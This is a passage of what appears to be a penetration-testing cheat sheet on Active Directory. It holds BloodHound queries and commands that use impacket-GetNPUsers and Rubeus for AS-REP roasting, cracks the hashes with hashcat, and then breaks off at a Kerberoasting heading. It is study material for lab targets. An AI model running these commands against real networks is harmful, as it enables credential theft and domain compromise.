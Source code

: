 - Find Workstations where Domain Users can RDP
- Find Servers where Domain Users can RDP
- Find Computers where Domain Users are Local Admin
- Shortest Path to Domain Admins from Owned Principals

- List all Kerberoastable Accounts

```

Custom Queries

```
MATCH (m:Computer) RETURN m			# display all computers
MATCH (m:User) RETURN m				# display all User
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p			# Display all active sessions
```



### AD Authentication Attack

Get Hash

Kerberos Attacks Cheatsheet

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a



#### 1. AS-REP Roasting

1. Get Hash

   - Linux

     ```
     impacket-GetNPUsers -dc-ip 192.168.50.70 -request corp.com/pete
     
     impacket-GetNPUsers -dc-ip 192.168.50.70 -request corp.com/pete -format hashcat
     
     impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
     
     impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/fsmith
     ```

     

   - Windows

     ```
     .\Rubeus.exe asreproast /nowrap
     ```

2. Bruteforce

   ```
   sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
   ```

   

#### 2. Kerberoasting

1. Get TGS-REP hash
   ```